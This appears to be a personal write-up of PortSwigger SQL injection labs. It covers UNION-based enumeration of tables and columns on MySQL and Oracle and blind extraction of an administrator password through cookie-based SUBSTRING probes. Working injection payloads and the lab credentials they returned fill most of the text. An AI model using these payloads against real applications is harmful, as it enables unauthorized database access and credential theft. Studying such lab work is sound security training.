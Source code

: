 # UNION attacks

MySQL end of query = `--` and `#`, **try both**.

**PS Lab:** `SQL injection attack, querying the database type and version on MySQL and Microsoft` rejected my accurate queries because I ended my query with `--` instead of `#`. Is this accurate of a real-world setup? I'm not sure.


### Lab: SQL injection attack, listing the database contents on non-Oracle databases
This is a non-Oracle database, so we need to make user of information_schema.tables
>Pets' union select table_name,NULL from information_schema.tables--

This returns all of the tables in the database.

Look for a non-standard table `users_xgouhg`

>Pets' union select * from users_xgouhg--

```
administrator
8bd235i2g39fg3h6865g
```

Chaching 💸

### SQL injection attack, listing the database contents on Oracle
Same thing, just with Oracle. Ezpz.

>Pets' union select table_name, null from all_tables--

Table name `USERS_YXUZFJ`

`Pets' union select COLUMN_NAME,null from all_tab_columns where table_name='USERS_YXUZFJ'--`
Columns:

```
PASSWORD_ODOKFU  
USERNAME_DZRUHS
```

```
administrator
b33a0q24met5szk298fj

carlos
yutk3v2n7a8tt6wco6n2

wiener
95ca28n08tuaahvqbeef
```

## Blind SQL injection with conditional responses

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) > 'm'--;

Welcome back!

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1) = 'y'--;

First letter is `y`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),2,1) = '5'--;

Second character is `5`. Numbers come before letters in SUBSTRING() !

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),3,1) = 'l'--;

3rd character is `l`

>Cookie: TrackingId=4ZZNvGxfNC5HgJ8e' and SUBSTRING((SELECT password FROM users where username='administrator'),4,1) = '1'--;

4th characters is `1`
